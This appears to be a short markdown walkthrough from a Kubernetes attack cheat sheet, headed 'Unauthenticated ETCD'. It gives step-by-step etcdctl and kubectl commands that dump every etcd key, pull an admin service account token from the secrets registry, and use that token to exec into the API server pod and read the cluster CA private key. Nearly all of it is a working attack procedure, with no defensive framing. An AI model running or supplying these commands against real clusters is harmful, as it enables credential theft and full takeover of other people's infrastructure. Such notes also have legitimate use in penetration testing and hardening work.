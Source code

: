 ## Unauthenticated ETCD

1. Exploiting this takes a couple of steps
2. Set the ETCD environment variable `export ETCDCTL_API=3`
3. First we need to dump some secrets out of the etcd database 
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[CLUSTERIP]:2379 get / --prefix --keys-only`
4. Then we'll need a service account token to authenticate to the cluster with. Looking through the list of accounts we can see an admis-account
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get /registry/secrets/kube-system//admins-account-token-[RAND]`
  The service account token starts with ey and ends just before the word `kubernetes.io` in the token. 
5. With the service token we can use kubectl , first get the API pod name
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system get po`

6. Then get the key   
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`